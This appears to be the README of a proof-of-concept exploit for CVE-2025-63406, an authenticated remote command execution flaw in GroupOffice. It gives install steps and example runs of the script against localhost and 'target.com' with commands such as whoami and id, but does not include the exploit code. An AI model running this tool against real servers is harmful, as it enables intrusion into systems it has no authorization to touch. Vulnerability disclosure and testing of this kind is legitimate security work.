


# CVE-2025-63406 PoC

## Installation

```bash
# Install dependencies
pip install -r requirements.txt

# Or use a virtual environment
python3 -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate
pip install -r requirements.txt
```

## Usage

```bash
python3 CVE-2025-63406.py -u <URL> -n <USERNAME> -p <PASSWORD> -c <COMMAND>
```

### Arguments

- `-u, --url`: Base URL of the GroupOffice instance (e.g., `http://localhost:9090`)
- `-n, --username`: Username for authentication
- `-p, --password`: Password for authentication
- `-c, --command`: System command to execute (e.g., `whoami`, `id`, `ls -la`)

### Examples

```bash
# Execute whoami command
python3 CVE-2025-63406.py -u http://localhost:9090 -n admin -p password -c whoami

# Execute id command
python3 CVE-2025-63406.py -u http://target.com:9090 -n admin -p password -c id

# List files in current directory
python3 CVE-2025-63406.py -u http://target.com:9090 -n admin -p password -c "ls -la"

# Get system information
python3 CVE-2025-63406.py -u http://target.com:9090 -n admin -p password -c "uname -a"
```

   
   

## Disclaimer

⚠️ **This tool is for authorized testing only. Unauthorized access to computer systems is illegal.**
